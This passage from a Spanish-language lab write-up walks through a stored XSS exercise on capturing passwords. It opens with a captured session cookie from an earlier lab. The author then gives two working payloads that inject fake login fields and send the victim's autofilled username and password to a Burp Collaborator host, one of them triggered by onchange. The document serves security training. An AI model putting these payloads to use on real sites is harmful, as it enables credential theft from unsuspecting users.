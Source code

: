 ```
secret=avJbuCyJJiBnI7NFZJ4sbbdOXdKAb4Py; session=4TWOZsQYlS5PASECvxhQPUONxdZ5qi6l
```

Entonces ingresamos al home del laboratorio, interceptamos el paquete y cambiamos la cookie para completar el laboratorio.

![](img3.png)

## 3. Lab: Exploiting cross-site scripting to capture passwords

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.
```

Entonces primero iremos a la seccion de login para recoger las dos etiquetas input de usuario y contraseña.

```
<input required="" type="username" name="username">
<input required="" type="password" name="password">
```

Y para obtener el valor dentro de estos input podemos usar el payload:

```
document.getElementsByName("username")[0].value
document.getElementsByName("password")[0].value
```

Entonces, creamos nuestro payload.

```html
<input required="" type="username" name="username"><input required="" type="password" name="password"><script>document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName("username")[0].value+'&'+document.getElementsByName("password")[0].value</script>
```

Entonces, iniciamos el modo **Intercept ON** del burpsuite, y cambiamos el valor del mensaje por el payload, encodeado con URL encode.

![](img5.png)

Podemos ver que envia el paquete

![](img6.png)

Pero lo envia sin informacion, esto puede ocurrir porque a la hora de realizar el document.location todavia no se realizó el autocompletado, por ello haremos uso del atributo **onchange**. 

```html
<input required="" type="username" name="username"><input required="" type="password" name="password" onchange="document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName('username')[0].value+'&'+document.getElementsByName('password')[0].value">
```
